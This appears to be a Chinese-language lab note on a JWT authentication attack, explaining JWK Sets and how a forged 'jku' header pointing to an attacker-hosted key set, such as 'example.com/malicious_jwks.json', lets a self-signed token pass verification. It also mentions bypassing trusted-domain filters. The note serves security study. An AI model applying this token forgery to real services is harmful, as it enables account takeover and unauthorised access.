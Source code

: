 某些服务器允许您使用 （JWK Set URL） header 参数来引用包含密钥的 JWK Set，而不是直接使用 header 参数嵌入公钥。验证签名时，服务器会从此 URL 获取相关密钥。

#### JWK 集

JWK 集是一个 JSON 对象，其中包含表示不同键的 JWK 数组。您可以在下面看到一个示例。

```
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab",
            "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
        },
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
            "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
        }
    ]
}
```

像这样的 JWK 集有时会通过标准端点公开，例如 .`/.well-known/jwks.json`

更安全的网站只会从受信任的域获取密钥，但您有时可以利用 URL 解析差异来绕过此类过滤。我们在 SSRF 主题中介绍了一些[示例](https://portswigger.net/web-security/ssrf#ssrf-with-whitelist-based-input-filters)。

### 服务端如果校验？

解析 jwt 头：

```
{
  "alg": "RS256",
  "jku": "https://example.com/malicious_jwks.json",
  "kid": "1111"
}
```

然后服务器通过 jku 下载这个 jwk 集，同时使用 kid = 1111，匹配 jwk 集的特定 jwk。

匹配完成后，说明服务器在生成 jwt 时，将此 jwk 和 jwt 进行关联。那么就使用此 jwk 里的公钥来验证 jws。 

### 实验

生成一个 rsa 密钥对，然后制作 jwk 集（jwks）。

```
{
    "keys": [

    ]
}
```

把公钥填充进 jwks。

```
{
    "keys": [
        {
            "kty": "RSA",
    		"e": "AQAB",
    		"kid": "0159436e-5231-4bb5-9638-5c39af68c412",
    		"n": "1QbLw-g6FzykgSdLcPJEL2HiBxiXiSTlUKef4kRp5vc1VZI6b3qtcrotMLSrA_TnZJo8QpYE2EEa2TAz1jOwHsejTRzZVtSpsy1LIJWZC3t7kIEYS72_auNGSE4Oe7ajo7O8LNxChxPEIWnEEtEKcIc4gE_m0OI097SVzYU9qb7-XnW1_quR0h1Yj0miOsyF3dBvjm9QSK-DlCR97KYuz5_jJWPtOBPXCPRTWdlQTibEQJlRY4LAn2R3MAABqmvLkP0qUjE--gdaATONdZ7xM0gZURLBeJs7h-A_zm-rSO0Vwqa6bY56HKjVgSwxMgoO6UnMAqkY9vTYE0TOy3wPww"
        }
    ]
}
```

在 header 中指定好 jku，后使用私钥签下名即可。

![image-20250509165502499](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/JWT%20%E6%BC%8F%E6%B4%9E/images/image-20250509165502499.png)